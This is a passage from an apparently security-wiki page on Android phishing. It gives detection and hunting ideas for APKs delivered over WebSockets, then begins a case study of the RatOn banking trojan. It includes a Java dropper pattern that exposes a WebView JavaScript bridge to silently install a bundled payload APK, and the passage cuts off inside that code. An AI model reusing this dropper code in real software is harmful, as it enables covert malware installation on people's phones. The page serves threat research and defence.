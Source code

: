 Why it evades simple controls:
- No static APK URL is exposed; payload is reconstructed in memory from WebSocket frames.
- URL/MIME/extension filters that block direct .apk responses may miss binary data tunneled via WebSockets/Socket.IO.
- Crawlers and URL sandboxes that don’t execute WebSockets won’t retrieve the payload.

Hunting and detection ideas:
- Web/network telemetry: flag WebSocket sessions that transfer large binary chunks followed by creation of a Blob with MIME application/vnd.android.package-archive and a programmatic `<a download>` click. Look for client strings like socket.emit('startDownload'), and events named chunk, downloadProgress, downloadComplete in page scripts.
- Play-store spoof heuristics: on non-Google domains serving Play-like pages, hunt for Google Play UI strings such as http.html:"VfPpkd-jY41G-V67aGc", mixed-language templates, and fake “verification/progress” flows driven by WS events.
- Controls: block APK delivery from non-Google origins; enforce MIME/extension policies that include WebSocket traffic; preserve browser safe-download prompts.

See also WebSocket tradecraft and tooling:

{{#ref}}
../../pentesting-web/websocket-attacks.md
{{#endref}}


## Android Accessibility/Overlay & Device Admin Abuse, ATS automation, and NFC relay orchestration – RatOn case study

The RatOn banker/RAT campaign (ThreatFabric) is a concrete example of how modern mobile phishing operations blend WebView droppers, Accessibility-driven UI automation, overlays/ransom, Device Admin coercion, Automated Transfer System (ATS), crypto wallet takeover, and even NFC-relay orchestration. This section abstracts the reusable techniques.

### Stage-1: WebView → native install bridge (dropper)
Attackers present a WebView pointing to an attacker page and inject a JavaScript interface that exposes a native installer. A tap on an HTML button calls into native code that installs a second-stage APK bundled in the dropper’s assets and then launches it directly.

Minimal pattern:

```java
public class DropperActivity extends Activity {
  @Override protected void onCreate(Bundle b){
    super.onCreate(b);
    WebView wv = new WebView(this);
    wv.getSettings().setJavaScriptEnabled(true);
    wv.addJavascriptInterface(new Object(){
      @android.webkit.JavascriptInterface
      public void installApk(){
        try {
          PackageInstaller pi = getPackageManager().getPackageInstaller();
          PackageInstaller.SessionParams p = new PackageInstaller.SessionParams(PackageInstaller.SessionParams.MODE_FULL_INSTALL);
          int id = pi.createSession(p);
          try (PackageInstaller.Session s = pi.openSession(id);
               InputStream in = getAssets().open("payload.apk");
               OutputStream out = s.openWrite("base.apk", 0, -1)){
            byte[] buf = new byte[8192]; int r; while((r=in.read(buf))>0){ out.write(buf,0,r);} s.fsync(out);
          }
          PendingIntent status = PendingIntent.getBroadcast(this, 0, new Intent("com.evil.INSTALL_DONE"), PendingIntent.FLAG_UPDATE_CURRENT | PendingIntent.FLAG_IMMUTABLE);
          pi.commit(id, status.getIntentSender());
        } catch (Exception e) { /* log */ }
      }
    }, "bridge");
    setContentView(wv);
```